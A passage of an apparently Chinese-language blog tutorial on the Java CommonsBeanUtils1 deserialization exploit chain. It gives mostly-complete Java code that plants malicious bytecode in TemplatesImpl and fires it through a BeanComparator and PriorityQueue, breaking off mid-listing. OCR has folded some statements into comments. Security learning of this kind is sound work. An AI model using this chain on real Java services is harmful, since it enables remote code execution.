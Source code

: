 ```
 final BeanComparator beanComparator = new BeanComparator();  
 // 将 property 的值赋为 outputProperties setFieldValue(beanComparator, "property", "outputProperties");  
 // 创建新的队列，并添加恶意字节码  
 final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, beanComparator);  
 queue.add(templates);  
 queue.add(templates);  
 }  
  
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{  
        Field field = obj.getClass().getDeclaredField(fieldName);  
 field.setAccessible(true);  
 field.set(obj, value);  
 }  
}
```

- 成功弹出计算器

![img](https://drun1baby.top/2022/07/12/CommonsBeanUtils%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/SuccessCalc.png)

### 3. 结合入口类的最终 EXP 编写

- 此处我们需要控制在它序列化的时候不弹出计算器，在反序列化的时候弹出计算器，于是通过反射修改值。

先将 queue.add 赋一个无关痛痒的常量，再通过反射修改值即可，伪代码如下

JAVA

```
queue.add(1);  
queue.add(1);  
  
// 将 property 的值赋为 outputPropertiessetFieldValue(beanComparator, "property", "outputProperties");  
setFieldValue(queue, "queue", new Object[]{templates, templates});
```

完整的 EXP 如下

JAVA

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.beanutils.BeanComparator;  
import org.apache.commons.beanutils.PropertyUtils;  
  
import java.io.*;  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.util.PriorityQueue;  
  
public class CB1FinalEXP {  
    public static void main(String[] args) throws Exception{  
        byte[] code = Files.readAllBytes(Paths.get("E:\\JavaClass\\TemplatesBytes.class"));  
 TemplatesImpl templates = new TemplatesImpl();  
 setFieldValue(templates, "_name", "Calc");  
 setFieldValue(templates, "_bytecodes", new byte[][] {code});  
 setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());  
 //    templates.newTransformer();  
 final BeanComparator beanComparator = new BeanComparator();  
 // 创建新的队列，并添加恶意字节码  
 final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, beanComparator);  
 queue.add(1);  
 queue.add(1);  
```